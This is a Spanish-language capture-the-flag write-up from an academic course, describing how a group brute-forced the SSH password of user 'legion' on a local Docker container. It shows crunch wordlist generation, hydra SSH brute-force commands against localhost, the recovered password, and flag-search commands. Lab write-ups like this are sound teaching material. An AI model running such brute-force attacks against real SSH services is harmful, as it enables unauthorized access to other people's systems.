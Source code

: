 # Creando CTF's

# 🛡️ Reto CTF: Ubuntu con SSH y Usuario 'Legion'

## 🎯 Objetivo
Acceder vía SSH a un contenedor Docker con usuario `legion`, cuya contraseña debe ser descubierta a través de fuerza bruta basada en un acertijo. Se utilizaron herramientas como `crunch` e `hydra` para automatizar el proceso.

---

## 🧱 1. Preparación del entorno

### Descargar imagen del contenedor
```bash
docker pull jaiderospina/retoctf:1.0

Ejecutar contenedor en segundo plano


docker run -d -p 2222:22 --name mi-contenedor-ssh jaiderospina/retoctf:1.0
Solución a conflicto de nombre


docker rm -f mi-contenedor-ssh
🔍 2. Verificación del contenedor


docker ps
Confirmó contenedor activo y SSH escuchando en puerto 2222.

🧠 3. Análisis del acertijo
Cinco letras ocultas en las palabras estrella, selva, dedo, gato...
Hipótesis principal: combinación tipo esdeg, ESDEG, etc.

🧰 4. Generación de diccionarios con Crunch
Lista basada en patrón:


crunch 5 5 -t ES%%O -o esdeo.lst
Lista reducida:


crunch 5 5 estdgo -o reducido.lst
Lista ampliada:


crunch 5 5 estdogal -o ampliada.lst
Lista completa (opcional):


crunch 5 5 abcdefghijklmnopqrstuvwxyz -o full.lst
⚔️ 5. Ataques con Hydra
Comando base usado:



hydra -t 4 -l legion -P [archivo] -s 2222 localhost ssh
Diccionarios probados:

esdeo.lst ❌

reducido.lst ❌

ampliada.lst ❌

👣 6. Verificación manual de servicio SSH


ssh legion@localhost -p 2222
Confirmado: SSH activo y pidiendo contraseña.

🎯 7. Ataque exitoso con combinaciones personalizadas
Crear wordlist:


echo -e "esdeg\nESDEG\nEsdeg\neSdeg\nesDEG\neSdEg\nEsDEg\nESDeg\nesDEg\nEsdEg" > combinadas.lst
Ejecutar Hydra:


hydra -l legion -P combinadas.lst -s 2222 localhost ssh

✅ Resultado:

css


[22][ssh] host: localhost login: legion password: Esdeg
🔐 8. Acceso SSH exitoso


ssh legion@localhost -p 2222
# Contraseña: Esdeg
🕵️ 9. Búsqueda de bandera
Comandos usados:


ls -la
cat flag.txt
find / -name "*flag*" 2>/dev/null
cat /etc/motd
grep -r "CTF{" /home 2>/dev/null
❌ No se encontró bandera explícita en el contenedor.

🧠 Lecciones aprendidas
Uso táctico de crunch para generar diccionarios.

Dominio de hydra con control de tareas (-t).

Verificación previa de puertos y servicio SSH.

Importancia de considerar variantes en uso de mayúsculas.

Documentación detallada del proceso paso a paso.

Contraseña final encontrada: Esdeg
Usuario: legion
Puerto: 2222

📁 Autor: [grupo 4 - ]
📅 Fecha: Julio 2025
🎓 Proyecto académico – Electiva Habilidades Prácticas CTF


